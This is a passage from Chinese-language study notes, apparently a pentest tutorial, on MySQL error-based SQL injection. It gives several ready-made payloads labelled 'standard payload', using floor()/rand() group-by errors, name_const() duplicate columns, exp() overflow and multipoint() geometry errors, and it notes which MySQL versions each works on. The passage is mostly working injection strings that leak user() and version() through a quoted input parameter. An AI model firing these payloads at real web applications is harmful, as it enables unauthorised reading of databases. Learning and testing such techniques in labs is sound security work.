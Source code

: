   ```sql
  1' and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)y) -- qwe
  
  1' and (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x) -- qwe
  
  ```

  ![floor报错注入](http://113.45.142.235:9001/laffrex/pictures/floor报错注入.png)

###### ③其他报错注入

1. **列名重复name_const()**

> mysql版本属于 [5.0,5.1)
>
> **name_const(name,value)**,当用来产生一个**结果集合**时，name_const()促使该列**使用给定名称**

* 标准payload

  ```sql
  1' and (select * from (select name_const(version(),1),name_const(version(),1))a) -- qwe			'
  
  #5.7.6只支持使用version()查看版本，其他内置函数均不支持
  ```

  ![列明重复报错注入](http://113.45.142.235:9001/laffrex/pictures/列明重复报错注入.png)

2. **整形溢出exp()**

> mysql低于5.5.5，5.7.9成功，8.0失败
>
> exp是以e为底的指数函数，由于数字太大会溢出，该函数会在参数大于709时溢出，产生报错

* 标准payload

```sql
1' and exp (~(select * from(select version())a)) --+		//只有mysql5.5.29才能正常显示
```

![整形溢出报错注入](http://113.45.142.235:9001/laffrex/pictures/整形溢出报错注入.png)

3. **几何函数**

> mysql版本属于[5.5.49,~]
>
> 高版本mysql无法得到数据，目前只有**mysql5.5.29、5.1.60**能得到**正确输出**
>
> geometrycollection()、**multipoint()**、polygon()、multipolygon()、linestring()、multilinestring()

* 标准payload

  ```sql
  1' and 
      (select multipoint(
          (select * from 
              (select * from 
                  (select * from
                      (select version())a
                  )b
               )c
      	)
      )
  ) -- qwe		
  ```
